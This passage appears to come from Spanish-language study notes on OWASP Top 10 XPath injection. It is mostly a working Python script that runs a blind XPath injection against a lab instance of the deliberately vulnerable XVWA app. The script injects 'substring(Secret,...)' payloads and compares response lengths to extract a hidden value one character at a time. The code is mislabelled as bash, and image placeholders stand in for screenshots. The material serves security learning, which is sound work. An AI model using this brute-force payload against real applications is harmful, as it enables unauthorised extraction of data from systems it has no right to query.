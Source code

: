 ![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 30.png)

Esto se puede automatizar con un script en Python

- Code
    
    ```bash
    #!/bin/bash
    
    import sys, signal, requests, time, string
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!] Exiting...\n")
    	exit(1)
    
    #Ctrl+C
    signal.signal(signal.SIGINT, def_handler)
    
    #Variables globales
    main_url = "http://192.168.0.105/xvwa/vulnerabilities/xpath/"
    characters = string.ascii_letters + ' '
    
    def XPATH_RootTag():
    
    	p1 = log.progress("Iniciando proceso de fuerza bruta")
    	p2 = log.progress("Data")
    	
    	time.sleep(2)
    	
    	data = ""
    	
    	for position in range(1, 51):
    		for character in characters:
    			post_data = {
    				'search': "1' and substring(Secret,%d,1)='%s" % (position, character),
    				'submit': ''
    			}
    
    			r = requests.post(main_url, data=post_data)
    			
    			#print(len(r.text))
    			
    			# Comparación de cantidad de caracteres en la respuesta
    			if len(r.text) != 8677 and len(r.text) != 8676:
    				#print(len(r.text))
    				data+=character
    				p2.status(data)
    				break
    
    if __name__ == '__main__':
    	XPATH_RootTag()
    ```
    

![Untitled](../assets/OWASP-TOP-10/Inyecciones XPath/Untitled 31.png)

